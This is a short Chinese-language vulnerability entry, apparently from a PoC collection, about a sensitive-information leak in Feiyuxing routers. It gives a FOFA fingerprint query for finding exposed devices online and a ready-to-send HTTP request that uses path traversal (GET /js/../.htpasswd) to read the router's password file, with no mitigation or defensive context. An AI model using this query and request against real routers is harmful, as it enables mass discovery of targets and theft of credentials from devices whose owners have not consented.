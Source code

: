 # 飞鱼星-路由器存在敏感信息泄露漏洞
成都飞鱼星科技股份有限公司成立于2002年，公司现有全场景（行业）无线网络解决方案、公安审计解决方案、星云平台、企业级无线路由器、企业上网行为管理路由、智能家居解决方案、全屋Wi-Fi覆盖方案、安防监控交换机等产品及方案，致力于提供智能易用的网络通讯产品与服务，通过创新技术不断提升网络使用质量，为用户创建智能、高效、人性化的网络管理平台。飞鱼星-路由器存在敏感信息泄露漏洞

## fofa
```javascript
body="js/select2css.js"
```

## poc
```javascript
GET /js/../.htpasswd HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1734321644321-511c2e49-d340-4575-a1cb-8fc98e0aa304.png)

